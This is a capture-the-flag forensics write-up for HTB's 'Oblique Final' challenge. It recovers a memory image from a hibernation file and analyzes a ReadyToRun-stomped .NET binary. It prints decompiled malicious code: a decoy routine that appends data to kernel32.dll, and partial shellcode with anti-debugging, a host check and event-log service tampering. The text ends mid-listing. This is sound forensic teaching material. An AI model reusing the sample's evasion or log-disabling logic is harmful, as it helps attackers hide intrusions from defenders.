



# HTB Cyber Apocalypse 2024: Hacker Royale - Oblique Final

## Challenge

> As the days for the final round of the game, draw near, rumors are beginning to spread that one faction in particular has rigged the final! In the meeting with your team, you discuss that if the game is indeed rigged, then there can be no victory here... Suddenly, one team player barged in carrying a Windows Laptop and said they found it in some back room in the game Architects' building just after the faction had left! As soon as you open it up it turns off due to a low battery! You explain to the rest of your team that the Legionnaires despise anything unethical and if you expose them and go to them with your evidence in hand, then you surely end up being their favorite up-and-coming faction. "Are you Ready To Run with the Wolves?!"

## Metadata

- Difficulty: insane
- Creator: `c4n0pus`
- Files: `hiberfil.sys` (~7 GB)
- Docker: no
- Tags: `hibernation file`, `memory forensics`, `.NET`, `stomping`, `ReadyToRun`
- Points: `350`
- Number of solvers: 

## Solution

### Hibernation file

We cannot directly analyze a hibernation file with Volatility. However, there is a Volatility 3 fork with an extra plugin which can convert the hibernation file to a raw memory dump:
- <https://www.forensicxlab.com/posts/hibernation/>
- <https://github.com/forensicxlab/volatility3/tree/feature/hibernation-layer>

```bash
$ git clone https://github.com/forensicxlab/volatility3
$ cd volatility3
$ git checkout feature/hibernation-layer
$ ./vol3.py -f /tmp/hiberfil.sys windows.hibernation.Dump --version 0
```

### Memory forensics

We can use either Volatility 2 (profile `Win10x64_19041`) and Volatility 3:

```
$ python2 ~/tools/volatility2/vol.py -f memory_layer.raw imageinfo 
Volatility Foundation Volatility Framework 2.6.1
INFO    : volatility.debug    : Determining profile based on KDBG search...
          Suggested Profile(s) : Win10x64_19041
                     AS Layer1 : SkipDuplicatesAMD64PagedMemory (Kernel AS)
                     AS Layer2 : FileAddressSpace (/data/convert/memory_layer.raw)
                      PAE type : No PAE
                           DTB : 0x1ad000L
                          KDBG : 0xf8032da00b20L
          Number of Processors : 6
     Image Type (Service Pack) : 0
                KPCR for CPU 0 : 0xfffff80328332000L
                KPCR for CPU 1 : 0xffff8680c198b000L
                KPCR for CPU 2 : 0xffff8680c1aa3000L
                KPCR for CPU 3 : 0xffff8680c1b26000L
                KPCR for CPU 4 : 0xffff8680c1be9000L
                KPCR for CPU 5 : 0xffff8680c1cec000L
             KUSER_SHARED_DATA : 0xfffff78000000000L
           Image date and time : 2024-02-08 22:43:33 UTC+0000
     Image local date and time : 2024-02-08 14:43:33 -0800
```

```
$ python3 ~/tools/volatility3/vol.py -f memory_layer.raw windows.info
Volatility 3 Framework 2.7.0
Progress:  100.00               PDB scanning finished                        
Variable        Value

Kernel Base     0xf8032ce00000
DTB     0x1ad000
Symbols file:///home/pentest/tools/volatility3/volatility3/symbols/windows/ntkrnlmp.pdb/89284D0CA6ACC8274B9A44BD5AF9290B-1.json.xz
Is64Bit True
IsPAE   False
layer_name      0 WindowsIntel32e
memory_layer    1 FileLayer
KdVersionBlock  0xf8032da0f3a0
Major/Minor     15.19041
MachineType     34404
KeNumberProcessors      6
SystemTime      2024-02-08 22:43:33
NtSystemRoot    C:\Windows
NtProductType   NtProductWinNt
NtMajorVersion  10
NtMinorVersion  0
PE MajorOperatingSystemVersion  10
PE MinorOperatingSystemVersion  0
PE Machine      34404
PE TimeDateStamp        Fri May 20 08:24:42 2101
```

Let's start with analyzing the processes:

```
PID     PPID    ImageFileName   Offset(V)       Threads Handles SessionId       Wow64   CreateTime      ExitTime  File output

4       0       System  0xac8d56a93080  151     -       N/A     False   2024-02-08 22:29:58.000000      N/A     Disabled
112     4       Registry        0xac8d56af9040  4       -       N/A     False   2024-02-08 22:29:57.000000      N/ADisabled
396     4       smss.exe        0xac8d5736d040  2       -       N/A     False   2024-02-08 22:29:58.000000      N/ADisabled
516     504     csrss.exe       0xac8d5d347080  12      -       0       False   2024-02-08 22:30:00.000000      N/ADisabled
596     504     wininit.exe     0xac8d5dae6080  4       -       0       False   2024-02-08 22:30:00.000000      N/ADisabled
740     596     services.exe    0xac8d5dae9140  9       -       0       False   2024-02-08 22:30:00.000000      N/ADisabled
748     596     lsass.exe       0xac8d5db26080  10      -       0       False   2024-02-08 22:30:00.000000      N/ADisabled
884     740     svchost.exe     0xac8d5e205240  18      -       0       False   2024-02-08 22:30:00.000000      N/ADisabled
908     596     fontdrvhost.ex  0xac8d5e210140  6       -       0       False   2024-02-08 22:30:00.000000      N/ADisabled
952     740     WUDFHost.exe    0xac8d5e209080  9       -       0       False   2024-02-08 22:30:00.000000      N/ADisabled
460     740     svchost.exe     0xac8d5e28d2c0  13      -       0       False   2024-02-08 22:30:00.000000      N/ADisabled
828     740     svchost.exe     0xac8d5e2c8240  6       -       0       False   2024-02-08 22:30:00.000000      N/ADisabled
1104    740     svchost.exe     0xac8d5e454240  5       -       0       False   2024-02-08 22:30:00.000000      N/ADisabled
1124    740     svchost.exe     0xac8d57cd0080  8       -       0       False   2024-02-08 22:30:00.000000      N/ADisabled
1200    740     svchost.exe     0xac8d5e458080  4       -       0       False   2024-02-08 22:30:00.000000      N/ADisabled
1304    740     svchost.exe     0xac8d5e54c240  16      -       0       False   2024-02-08 22:30:00.000000      N/ADisabled
1312    740     svchost.exe     0xac8d5e54e2c0  4       -       0       False   2024-02-08 22:30:00.000000      N/ADisabled
1360    740     svchost.exe     0xac8d5e52e300  8       -       0       False   2024-02-08 22:30:00.000000      N/ADisabled
1424    740     svchost.exe     0xac8d5e4a3240  4       -       0       False   2024-02-08 22:30:00.000000      N/ADisabled
1444    740     svchost.exe     0xac8d5e4ab300  5       -       0       False   2024-02-08 22:30:00.000000      N/ADisabled
1480    740     svchost.exe     0xac8d5d205300  4       -       0       False   2024-02-08 22:30:00.000000      N/ADisabled
1744    740     svchost.exe     0xac8d5e75d240  8       -       0       False   2024-02-08 22:30:00.000000      N/ADisabled
1880    740     svchost.exe     0xac8d5e7cb240  13      -       0       False   2024-02-08 22:30:00.000000      N/ADisabled
1916    740     svchost.exe     0xac8d5e6162c0  9       -       0       False   2024-02-08 22:30:00.000000      N/ADisabled
1928    740     svchost.exe     0xac8d5e618280  8       -       0       False   2024-02-08 22:30:00.000000      N/ADisabled
1940    740     svchost.exe     0xac8d5e619080  4       -       0       False   2024-02-08 22:30:00.000000      N/ADisabled
2024    4       MemCompression  0xac8d5e62f040  33      -       N/A     False   2024-02-08 22:30:00.000000      N/ADisabled
1236    740     svchost.exe     0xac8d5e69e240  5       -       0       False   2024-02-08 22:30:00.000000      N/ADisabled
1712    740     svchost.exe     0xac8d5e6c6280  4       -       0       False   2024-02-08 22:30:00.000000      N/ADisabled
1872    740     svchost.exe     0xac8d5e6c82c0  8       -       0       False   2024-02-08 22:30:00.000000      N/ADisabled
2116    740     svchost.exe     0xac8d5e82e2c0  5       -       0       False   2024-02-08 22:30:00.000000      N/ADisabled
2172    740     svchost.exe     0xac8d5e831080  11      -       0       False   2024-02-08 22:30:00.000000      N/ADisabled
2220    740     svchost.exe     0xac8d5e888300  10      -       0       False   2024-02-08 22:30:00.000000      N/ADisabled
2228    740     svchost.exe     0xac8d5e88c2c0  4       -       0       False   2024-02-08 22:30:00.000000      N/ADisabled
2244    740     svchost.exe     0xac8d5e88d080  13      -       0       False   2024-02-08 22:30:00.000000      N/ADisabled
2360    740     svchost.exe     0xac8d5e904240  6       -       0       False   2024-02-08 22:30:00.000000      N/ADisabled
2376    740     svchost.exe     0xac8d5e908240  5       -       0       False   2024-02-08 22:30:00.000000      N/ADisabled
2428    740     svchost.exe     0xac8d5e91d080  9       -       0       False   2024-02-08 22:30:00.000000      N/ADisabled
2528    740     spoolsv.exe     0xac8d5e98e200  9       -       0       False   2024-02-08 22:30:00.000000      N/ADisabled
2596    740     svchost.exe     0xac8d5e9b42c0  15      -       0       False   2024-02-08 22:30:00.000000      N/ADisabled
2656    740     svchost.exe     0xac8d5e9c7300  6       -       0       False   2024-02-08 22:30:00.000000      N/ADisabled
2828    740     blnsvr.exe      0xac8d5ea9b280  7       -       0       False   2024-02-08 22:30:00.000000      N/ADisabled
2836    740     svchost.exe     0xac8d5ea9d240  7       -       0       False   2024-02-08 22:30:00.000000      N/ADisabled
2844    740     svchost.exe     0xac8d5eaa1300  8       -       0       False   2024-02-08 22:30:00.000000      N/ADisabled
2852    740     svchost.exe     0xac8d5ea9e080  18      -       0       False   2024-02-08 22:30:00.000000      N/ADisabled
2860    740     svchost.exe     0xac8d5ea9f240  16      -       0       False   2024-02-08 22:30:00.000000      N/ADisabled
2920    740     svchost.exe     0xac8d5eace240  6       -       0       False   2024-02-08 22:30:01.000000      N/ADisabled
2936    740     vdservice.exe   0xac8d5eada280  4       -       0       False   2024-02-08 22:30:01.000000      N/ADisabled
2988    740     svchost.exe     0xac8d5eb08280  4       -       0       False   2024-02-08 22:30:01.000000      N/ADisabled
3004    740     MsMpEng.exe     0xac8d5eae90c0  41      -       0       False   2024-02-08 22:30:01.000000      N/ADisabled
3028    740     svchost.exe     0xac8d5eb0c080  4       -       0       False   2024-02-08 22:30:01.000000      N/ADisabled
3104    740     svchost.exe     0xac8d5ec102c0  5       -       0       False   2024-02-08 22:30:01.000000      N/ADisabled
3124    884     WmiPrvSE.exe    0xac8d5ec11080  9       -       0       False   2024-02-08 22:30:01.000000      N/ADisabled
3496    740     svchost.exe     0xac8d5ed4c300  7       -       0       False   2024-02-08 22:30:01.000000      N/ADisabled
3504    740     svchost.exe     0xac8d5ed4d080  8       -       0       False   2024-02-08 22:30:01.000000      N/ADisabled
3604    740     svchost.exe     0xac8d5ed92300  3       -       0       False   2024-02-08 22:30:01.000000      N/ADisabled
3620    740     svchost.exe     0xac8d5ed95080  26      -       0       False   2024-02-08 22:30:01.000000      N/ADisabled
3800    740     svchost.exe     0xac8d5ee76300  8       -       0       False   2024-02-08 22:30:01.000000      N/ADisabled
4000    740     svchost.exe     0xac8d5edc5080  4       -       0       False   2024-02-08 22:30:01.000000      N/ADisabled
3952    740     NisSrv.exe      0xac8d5f092080  10      -       0       False   2024-02-08 22:30:04.000000      N/ADisabled
1028    740     svchost.exe     0xac8d5f099240  7       -       0       False   2024-02-08 22:30:05.000000      N/ADisabled
4128    740     svchost.exe     0xac8d5f528340  4       -       0       False   2024-02-08 22:30:09.000000      N/ADisabled
4460    740     svchost.exe     0xac8d5f52d240  7       -       0       False   2024-02-08 22:30:29.000000      N/ADisabled
4596    740     svchost.exe     0xac8d5f363280  6       -       0       False   2024-02-08 22:30:29.000000      N/ADisabled
4176    740     svchost.exe     0xac8d5f653240  1       -       0       False   2024-02-08 22:30:29.000000      N/ADisabled
4440    740     svchost.exe     0xac8d5f731240  5       -       0       False   2024-02-08 22:30:30.000000      N/ADisabled
4960    740     svchost.exe     0xac8d5f7bf280  10      -       0       False   2024-02-08 22:30:30.000000      N/ADisabled
5292    740     SearchIndexer.  0xac8d5fa9a080  18      -       0       False   2024-02-08 22:30:32.000000      N/ADisabled
6000    740     SecurityHealth  0xac8d5fd6d280  11      -       0       False   2024-02-08 22:30:42.000000      N/ADisabled
6860    740     svchost.exe     0xac8d5f89e080  1       -       0       False   2024-02-08 22:30:57.000000      N/ADisabled
3752    2172    audiodg.exe     0xac8d5c7e3080  4       -       0       False   2024-02-08 22:31:55.000000      N/ADisabled
5020    740     svchost.exe     0xac8d57e6d080  14      -       0       False   2024-02-08 22:32:01.000000      N/ADisabled
2068    740     svchost.exe     0xac8d5fdea340  3       -       0       False   2024-02-08 22:32:01.000000      N/ADisabled
4612    740     SgrmBroker.exe  0xac8d5fc60080  9       -       0       False   2024-02-08 22:32:01.000000      N/ADisabled
5392    740     svchost.exe     0xac8d5f650240  10      -       0       False   2024-02-08 22:32:01.000000      N/ADisabled
5112    740     svchost.exe     0xac8d5f64e300  9       -       0       False   2024-02-08 22:32:02.000000      N/ADisabled
5316    5396    csrss.exe       0xac8d5f184080  13      -       2       False   2024-02-08 22:32:15.000000      N/ADisabled
3584    5396    winlogon.exe    0xac8d5f96e0c0  6       -       2       False   2024-02-08 22:32:15.000000      N/ADisabled
6228    3584    fontdrvhost.ex  0xac8d5ce1d080  5       -       2       False   2024-02-08 22:32:15.000000      N/ADisabled
6668    3584    dwm.exe 0xac8d5f897080  23      -       2       False   2024-02-08 22:32:15.000000      N/A     Disabled
4168    2936    vdagent.exe     0xac8d5fadd080  4       -       2       False   2024-02-08 22:32:16.000000      N/ADisabled
6448    740     svchost.exe     0xac8d5e5ca0c0  3       -       0       False   2024-02-08 22:40:30.000000      N/ADisabled
6380    1744    sihost.exe      0xac8d57e69080  16      -       2       False   2024-02-08 22:40:37.000000      N/ADisabled
6588    740     svchost.exe     0xac8d57c9a080  7       -       2       False   2024-02-08 22:40:37.000000      N/ADisabled
4032    740     svchost.exe     0xac8d5fb14080  5       -       2       False   2024-02-08 22:40:37.000000      N/ADisabled
5908    1304    taskhostw.exe   0xac8d5fde7080  8       -       2       False   2024-02-08 22:40:37.000000      N/ADisabled
5852    3584    userinit.exe    0xac8d5f3f5340  0       -       2       False   2024-02-08 22:40:37.000000      2024-02-08 22:41:00.000000         Disabled
6560    5852    explorer.exe    0xac8d5fba2080  92      -       2       False   2024-02-08 22:40:37.000000      N/ADisabled
6544    740     svchost.exe     0xac8d5f7422c0  12      -       2       False   2024-02-08 22:40:37.000000      N/ADisabled
1520    4596    ctfmon.exe      0xac8d5fa84080  13      -       2       False   2024-02-08 22:40:38.000000      N/ADisabled
2892    884     StartMenuExper  0xac8d605650c0  11      -       2       False   2024-02-08 22:40:38.000000      N/ADisabled
4268    884     RuntimeBroker.  0xac8d5f532080  4       -       2       False   2024-02-08 22:40:38.000000      N/ADisabled
2980    884     SearchApp.exe   0xac8d5ea7e080  37      -       2       False   2024-02-08 22:40:38.000000      N/ADisabled
728     884     RuntimeBroker.  0xac8d5f3e7080  12      -       2       False   2024-02-08 22:40:38.000000      N/ADisabled
6748    884     SkypeBackgroun  0xac8d5f09c080  4       -       2       False   2024-02-08 22:40:38.000000      N/ADisabled
5800    884     TextInputHost.  0xac8d5db10080  10      -       2       False   2024-02-08 22:40:39.000000      N/ADisabled
3404    884     dllhost.exe     0xac8d5fb11080  8       -       2       False   2024-02-08 22:40:44.000000      N/ADisabled
6552    1304    taskhostw.exe   0xac8d57ca1080  3       -       2       False   2024-02-08 22:40:46.000000      N/ADisabled
5168    884     RuntimeBroker.  0xac8d5f5e0300  5       -       2       False   2024-02-08 22:40:48.000000      N/ADisabled
6712    884     smartscreen.ex  0xac8d5fc9c080  11      -       2       False   2024-02-08 22:40:48.000000      N/ADisabled
1060    6560    SecurityHealth  0xac8d5fc5d2c0  4       -       2       False   2024-02-08 22:40:49.000000      N/ADisabled
3368    6560    OneDriveSetup.  0xac8d5db5c080  0       -       2       True    2024-02-08 22:40:49.000000      2024-02-08 22:41:05.000000         Disabled
5328    740     svchost.exe     0xac8d5fb17080  4       -       0       False   2024-02-08 22:41:13.000000      N/ADisabled
6744    5292    SearchProtocol  0xac8d5ed8f080  9       -       0       False   2024-02-08 22:42:04.000000      N/ADisabled
5352    5292    SearchFilterHo  0xac8d5f529080  4       -       0       False   2024-02-08 22:42:04.000000      N/ADisabled
1372    740     svchost.exe     0xac8d5faa6080  8       -       2       False   2024-02-08 22:42:37.000000      N/ADisabled
4404    884     WmiPrvSE.exe    0xac8d5e780080  10      -       0       False   2024-02-08 22:43:13.000000      N/ADisabled
6348    6560    TheGame.exe     0xac8d5ef4e080  8       -       2       False   2024-02-08 22:43:28.000000      N/ADisabled
2460    6348    conhost.exe     0xac8d5f8e2080  7       -       2       False   2024-02-08 22:43:28.000000      N/ADisabled
2484    884     GameBar.exe     0xac8d5f9a50c0  17      -       2       False   2024-02-08 22:43:28.000000      N/ADisabled
4184    740     svchost.exe     0xac8d5cba50c0  14      -       2       False   2024-02-08 22:43:28.000000      N/ADisabled
6204    884     dllhost.exe     0xac8d5fcb0080  8       -       2       False   2024-02-08 22:43:29.000000      N/ADisabled
3512    3584    LogonUI.exe     0xac8d5fa82080  17      -       2       False   2024-02-08 22:43:32.000000      N/ADisabled
3044    884     dllhost.exe     0xac8d5fa61080  8       -       2       False   2024-02-08 22:43:32.000000      N/ADisabled
1840    884     MoUsoCoreWorke  0xac8d5cbcd080  10      -       0       False   2024-02-08 22:43:32.000000      N/ADisabled
3492    740     svchost.exe     0xac8d5db1b080  7       -       0       False   2024-02-08 22:43:32.000000      N/ADisabled
```

There is on suspicious process (`6348` - `TheGame.exe`) and the description also talks about some kind of game.

Let's list and export the DLLs loaded into the memory of this process:

```
6348 TheGame.exe          0x00007ff892000000 True   True   True  \Users\architect\Desktop\publish\System.Private.CoreLib.dll
6348 TheGame.exe          0x00007ff8aaa50000 True   True   True  \Users\architect\Desktop\publish\hostpolicy.dll
6348 TheGame.exe          0x000001492ecd0000 True   True   True  \Users\architect\Desktop\publish\System.Runtime.dll
6348 TheGame.exe          0x00007ff8ab0a0000 True   True   True  \Users\architect\Desktop\publish\TheGame.dll
6348 TheGame.exe          0x00007ff8935c0000 True   True   True  \Users\architect\Desktop\publish\coreclr.dll
6348 TheGame.exe          0x00007ff8a6a70000 True   True   True  \Users\architect\Desktop\publish\clrjit.dll
6348 TheGame.exe          0x00007ff8aaac0000 True   True   True  \Users\architect\Desktop\publish\hostfxr.dll
6348 TheGame.exe          0x00007ff6dc8d0000 True   False  True  \Users\architect\Desktop\publish\TheGame.exe
6348 TheGame.exe          0x00007ff8b7550000 True   True   True  \Windows\System32\KernelBase.dll
6348 TheGame.exe          0x00007ff8b7430000 True   True   True  \Windows\System32\gdi32full.dll
6348 TheGame.exe          0x00007ff8b7970000 True   True   True  \Windows\System32\oleaut32.dll
6348 TheGame.exe          0x00007ff8b9590000 True   True   True  \Windows\System32\msvcrt.dll
6348 TheGame.exe          0x00007ff8b73a0000 True   True   True  \Windows\System32\bcryptprimitives.dll
6348 TheGame.exe          0x00007ff8b57e0000 True   True   True  \Windows\System32\kernel.appcore.dll
6348 TheGame.exe          0x00007ff8b8100000 True   True   True  \Windows\System32\gdi32.dll
6348 TheGame.exe          0x00007ff8b8e30000 True   True   True  \Windows\System32\shell32.dll
6348 TheGame.exe          0x00007ff8b8a70000 True   True   True  \Windows\System32\user32.dll
6348 TheGame.exe          0x00007ff8b86b0000 True   True   True  \Windows\System32\combase.dll
6348 TheGame.exe          0x00007ff8b9890000 True   True   True  \Windows\System32\ntdll.dll
6348 TheGame.exe          0x00007ff8b6fa0000 True   True   True  \Windows\System32\msvcp_win.dll
6348 TheGame.exe          0x00007ff8b8560000 True   True   True  \Windows\System32\imm32.dll
6348 TheGame.exe          0x00007ff8b8390000 True   True   True  \Windows\System32\sechost.dll
6348 TheGame.exe          0x00007ff8b9720000 True   True   True  \Windows\System32\ole32.dll
6348 TheGame.exe          0x00007ff8b7ff0000 True   True   True  \Windows\System32\advapi32.dll
6348 TheGame.exe          0x00007ff8b7f20000 True   True   True  \Windows\System32\kernel32.dll
6348 TheGame.exe          0x00007ff8b8430000 True   True   True  \Windows\System32\rpcrt4.dll
6348 TheGame.exe          0x00007ff8b7850000 True   True   True  \Windows\System32\win32u.dll
6348 TheGame.exe          0x00007ff8b7090000 True   True   True  \Windows\System32\ucrtbase.dll
6348 TheGame.exe          0x00007ff8b46c0000 True   True   True  \Windows\System32\apphelp.dll
```

For us the most interesting DLL is
```
6348 TheGame.exe          0x00007ff8ab0a0000 True   True   True  \Users\architect\Desktop\publish\TheGame.dll
```

Here are some interesting information from the [official write-up](https://github.com/hackthebox/cyber-apocalypse-2024/tree/main/forensics/%5BInsane%5D%20Oblique%20Final), which explains why we should focus on [`TheGame.dll`](files/TheGame.dll)

> So this is a .NET project, and judging by the number of libraries contained in the same path as the executable and the fact that the core runtime and the JIT compiler are provided we can deduce that this is a self-contained executable that ships the .NET runtime itself so it doesn't rely on the installation of a specific runtime version.

> The common "convention" is that the project name is the executable as well, however, being cross-platform the exe serves just as a native loader for the theGame.dll. Had this been a Linux system the native loader would have been an ELF file and a Mach-O for MacOS.

### Reverse engineering

If we load the DLL in dotPeek or dnSpy, they throw an error during decompilation and cannot decompile the `Main` function. Luckily ILSpy can handle it:



```c#
private static void Main(string[] argv)
{
	string[] array = new string[8] { "usp10.dll", "rasapi32.dll", "dwmapi.dll", "mpr.dll", "advpack.dll", "winspool.drv", "imm32.dll", "msimg32.dll" };
	nint[] array2 = new nint[array.Length];
	for (int i = 0; i < array.Length; i++)
	{
		nint num = LoadLibraryA(array[i]);
		if (num == (nint)global::System.IntPtr.Zero)
		{
			((Console)OpCode).WriteLine("Unable to load " + array[i]);
		}
		array2[i] = num;
	}
	string text = "WDVPIVAlQEFQWzRcUFpYNTQoUF4pN0NDKTd9JEVJQ0FSLVNUQU5EQVJELUFOVElWSVJVUy1URVNULUZJTEUhJEgrSCoNCg==";
	byte[] array3 = ((Convert)OpCode).FromBase64String(text);
	string @string = ((Encoding)(OpCode)((Encoding)OpCode).UTF8).GetString(array3);
	((Console)OpCode).WriteLine("Initializing AMSI Interface!");
	if (AmsiInitialize("Testing", out var amsiContextHandle) != 0)
	{
		((Environment)OpCode).Exit(-1);
	}
	int num2 = 600000;
	((Console)OpCode).WriteLine("AMSI Connection Established!");
	((Console)OpCode).WriteLine("Testing against known malicious sample!");
	if (AmsiScanString(amsiContextHandle, @string, "TEST", global::System.IntPtr.Zero, out var result) != 0)
	{
		((Environment)OpCode).Exit(-2);
	}
	if (result == AmsiResult.AMSI_RESULT_DETECTED)
	{
		((Console)OpCode).WriteLine("Testing String finished!");
		((Console)OpCode).WriteLine("Scanning malicious code: kernel32.dll");
	}
	byte[] array4 = ((File)OpCode).ReadAllBytes("C:\\Windows\\system32\\kernel32.dll");
	if (AmsiScanBuffer(amsiContextHandle, array4, array4.Length, "TEST", global::System.IntPtr.Zero, out result) != 0)
	{
		((Environment)OpCode).Exit(-3);
	}
	if (result == AmsiResult.AMSI_RESULT_NOT_DETECTED)
	{
		((Console)OpCode).WriteLine("Scanning finished, no threads found!");
	}
	try
	{
		((Console)OpCode).WriteLine("Clean library detected -> Backdooring!");
		FileStream val = ((File)OpCode).OpenWrite("C:\\Windows\\system32\\kernel32.dll");
		((Stream)(OpCode)val).Seek(((Stream)(OpCode)val).Length, (SeekOrigin)0);
		((Stream)(OpCode)val).Write(array3, 0, array3.Length);
	}
	catch
	{
	}
	Console.WriteLine("Sleeping forever");
	Thread.Sleep(num2);
  [...]
  ((object)(OpCode)(ref OpCodes.Nop)).ToString();
	((object)(OpCode)(ref OpCodes.Nop)).ToString();
  [...]
}
```

The decompiled code does not make any sense:
- `amsi.dll` is not loaded to the process's memory
- Neither any of `"usp10.dll", "rasapi32.dll", "dwmapi.dll", "mpr.dll", "advpack.dll", "winspool.drv", "imm32.dll", "msimg32.dll"`
- There is no output on the console
- The functionality does not make sense either, writing an `EICAR` sample to the end of the `kernel32.dll`
- The multiple `NOP` codes at the end is also suspicious

During the CTF I just loaded the DLL into Ghidra or IDA as a simple Portable Executable and solve the challenge.

However, there are some important pieces of knowledge from the [official write-up](https://github.com/hackthebox/cyber-apocalypse-2024/tree/main/forensics/%5BInsane%5D%20Oblique%20Final):

> Microsoft developed a form of AOT called R2R (ReadyToRun) which creates binaries of Mixed Mode Assemblies meaning they contain both IL code to be run on cross-platform machines and native code to be run on native machines!

> A R2R binary is larger because they contain both types of instructions but it runs faster on native platforms because it bypasses the full usage of the JIT. And since this is an optimization step the native code matches the platform on the system being run on, it will take precedence over the IL code!

In ILSpy we can put next to each other the R2R code and the IL code:



### The shellcode

If we load the binary in Ghidra or in IDA as a PE executable, they can decompile the shellcode.



The decompiled code (with some renamed variables and modified types):

```c
undefined8 FUN_7ff8ab0a1dc6(void)
{
  int targetcomputername_length;
  short *kernel32.dll;
  short *Advapi32.dll;
  undefined8 errorcode;
  char Sleep_str [6];
  char Wecsvc_str [7];
  char WinExec_str [8];
  char EventLog_str [9];
  char lstrlen_str [10];
  char ARCH_WORKSTATION-7_str [18];
  char ExitProcess_str [14];
  char LoadLibraryA_str [12];
  char OpenServiceA_str [13];
  char Advapi32.dll_str [13];
  char ControlService_str [15];
  char OpenSCManagerA_str [15];
  char GetProcAddress_str [15];
  char IsDebuggerPresent_str [18];
  char CloseServiceHandle_str [20];
  char GetComputerNameExA_str [20];
  byte key_32 [32];
  byte shellcode_156 [156];
  char kernel32.dll_str_utf16 [26];
  undefined4 length_256;
  int computername_length;
  code *CloseServiceHandle;
  code *ControlService;
  code *OpenServiceA;
  code *Sleep;
  code *lstrlen;
  undefined8 Wecsvc_Handle;
  undefined8 EventLog_Handle;
  code *WinExec;
  undefined8 SC_Handle;
  code *OpenSCManagerA;
  code *GetComputerNameExA;
  code *IsDebuggerPresent;
  code *LoadLibraryA;
  code *ExitProcess;
  undefined4 local_140;
  longlong GetProcAddress;
  undefined8 LPSERVICE_STATUS_Wecsvc;
  undefined8 LPSERVICE_STATUS_EventLog;
  undefined4 local_120;
  undefined4 local_118;
  undefined computername_256 [264];
  
  kernel32.dll_str_utf16[0] = 'k';
  kernel32.dll_str_utf16[1] = '\0';
  kernel32.dll_str_utf16[2] = 'e';
  kernel32.dll_str_utf16[3] = '\0';
  kernel32.dll_str_utf16[4] = 'r';
  kernel32.dll_str_utf16[5] = '\0';
  kernel32.dll_str_utf16[6] = 'n';
  kernel32.dll_str_utf16[7] = '\0';
  kernel32.dll_str_utf16[8] = 'e';
  kernel32.dll_str_utf16[9] = '\0';
  kernel32.dll_str_utf16[10] = 'l';
  kernel32.dll_str_utf16[11] = '\0';
  kernel32.dll_str_utf16[12] = '3';
  kernel32.dll_str_utf16[13] = '\0';
  kernel32.dll_str_utf16[14] = '2';
  kernel32.dll_str_utf16[15] = '\0';
  kernel32.dll_str_utf16[16] = '.';
  kernel32.dll_str_utf16[17] = '\0';
  kernel32.dll_str_utf16[18] = 'd';
  kernel32.dll_str_utf16[19] = '\0';
  kernel32.dll_str_utf16[20] = 'l';
  kernel32.dll_str_utf16[21] = '\0';
  kernel32.dll_str_utf16[22] = 'l';
  kernel32.dll_str_utf16[23] = '\0';
  kernel32.dll_str_utf16[24] = '\0';
  kernel32.dll_str_utf16[25] = '\0';
  Advapi32.dll_str[0] = 'A';
  [...]
  LoadLibraryA_str[0] = 'L';
  [...]
  GetProcAddress_str[0] = 'G';
  [...]
  IsDebuggerPresent_str[0] = 'I';
  [...]
  OpenSCManagerA_str[0] = 'O';
  [...]
  OpenServiceA_str[0] = 'O';
  [...]
  ControlService_str[0] = 'C';
  [...]
  CloseServiceHandle_str[0] = 'C';
  [...]
  ExitProcess_str[0] = 'E';
  [...]
